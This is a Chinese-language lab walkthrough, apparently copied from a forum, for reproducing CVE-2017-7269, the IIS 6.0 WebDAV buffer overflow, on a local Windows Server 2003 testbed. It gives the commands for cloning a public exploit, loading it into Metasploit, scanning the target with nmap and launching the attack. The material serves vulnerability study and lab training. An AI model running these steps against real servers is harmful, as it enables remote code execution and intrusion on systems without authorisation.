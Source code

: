 # （CVE-2017-7269）IIS 6.0开启Webdav 缓存区溢出漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2967](https://www.zhihuifly.com/t/topic/2967)

# （CVE-2017-7269）IIS 6.0开启Webdav 缓存区溢出漏洞

## 一、漏洞简介

IIS 6.0开启Webdav服务的服务器被爆存在缓存区溢出漏洞导致远程代码随意执行，目前针对 Windows Server 2003 R2 可以稳定利用。

## 二、漏洞影响

## 三、复现过程

### 环境搭建

目标主机：Windows Server 2003 R2
镜像下载：种子文件用迅雷下载:

```
ed2k://|file|cn_win_srv_2003_r2_enterprise_with_sp2_vl_cd1_X13-46432.iso|637917184|284DC0E76945125035B9208B9199E465|/ 
```

IP：192.168.1.104

A.安装IIS6.0服务：

![image](img/0108404ea834c03f873cfbda3587634c.png)

B.打开WebDAV服务拓展：

![image](img/8a19db447229f35b439d94e7e03ae4cb.png)

攻击机：kali Linux
镜像下载：https://www.kali.org/downloads/
IP:192.168.1.106

### 配置攻击套件

--首先我们要下载EXP文件，输入：

> git clone https://github.com/ianxtianxt/cve-2017-7269 //下载EXp

> ls //查看当前目录下的文件

![image](img/81f2e14fa555fe3dc77258792f8de668.png)

--然后我们需要复制EXP到msf框架中#注意复制时，是下划线”_”不要写成cve-2017-7269.rb#，在目录下重命名这个文件为cve_2017_7269.rb，输入：

> cp cve_2017_7269.rb /usr/share/metasploit-framework/modules/exploits/windows/iis/ //复制EXP到相应目录

> cd /usr/share/metasploit-framework/modules/exploits/windows/iis/ //进入目录

> ls //查看当前目录下的文件

![image](img/ddb2840061c6b42d3a9abe04a8302fad.png)

![image](img/d64dc9b0c46cb8efe5082072432401ef.png)

--我们使用nmap扫描一下靶机的端口情况，输入：

> nmap 192.168.1.104 //扫描192.168.1.104的端口

![image](img/203af2d8ee4490d4036f36a387c5dac2.png)

可以看到我们要攻击的80端口已经开启#

### 利用msf开始攻击

![image](img/97de8eb0bb913a1a0ed37c7ffdff69dc.png)

--然后我们要使用刚才复制进去的EXP套件
输入：

```
msf5 > use exploit/windows/iis/cve_2017_7269 //使用此套件 
```

```
msf5 > show options //查看需要的配置 
```

发现只需要配置RHOSTS(目标IP)，最好把RPORT(目标端口)也配置下

![image](img/b1739cc3ebdd8a676b9015dd9cf019b9.png)

```
msf5 > set rhosts 192.168.1.104 // 设置目标的IP
msf5 > set rport 80 //设置目标端口 
```

![image](img/22762da2909b88d3b1a855a7c4646f63.png)

```
msf5 > exploit 
```

![image](img/57673f4b1b0c03fed233531b3d6680cc.png)